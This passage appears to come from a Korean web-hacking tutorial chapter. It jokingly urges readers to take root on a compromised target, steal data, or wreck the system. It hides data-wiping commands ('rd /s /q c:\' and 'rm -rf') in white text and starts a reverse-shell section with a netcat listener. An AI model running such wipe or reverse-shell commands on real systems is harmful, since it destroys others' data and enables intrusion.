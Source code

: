 </div><br>
- 이런 식으로 타깃의 시스템을 가지고 놀거나

<div align="center" >
<img src="/Art of Web Hacking/Chapter18/017.png" width="520" height="305"> <br>
</div><br>
- 아니면 루트권한까지 접근해서 아예<br> 추가 정보들을 탈취하고
탈주<a alt="My tumblr" href="https://www.youtube.com/watch?v=v2RidwP_oKQ&t=126s" style="color: #FFFFFF">빤스런</a>하시던가<br>
  <br>

-파계승으로 빙의해서 타깃 시스템을 신나게 파괴하시면 됩니다 ㅋㅅㅋ;<br>
<span style="color: #FFFFFF">~~cmd /c rd /s /q c:\//윈도우~~</span>
<br>
<span style="color: #FFFFFF">~~or~~</span>
<br>
<span style="color: #FFFFFF">~~cd /home/user/test 후 rm -rf ./*//리눅스~~</span>
<br><br><br>


<font size="4em" color="#0091ff">4. 리버스 쉘 침투</font>
<br>
<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">nc&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>lvnp&nbsp;<span style="color:#308ce5">4000</span></div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>

-먼저 터미널 하나에 리스닝 포트 열어제껴둡니다.<br>
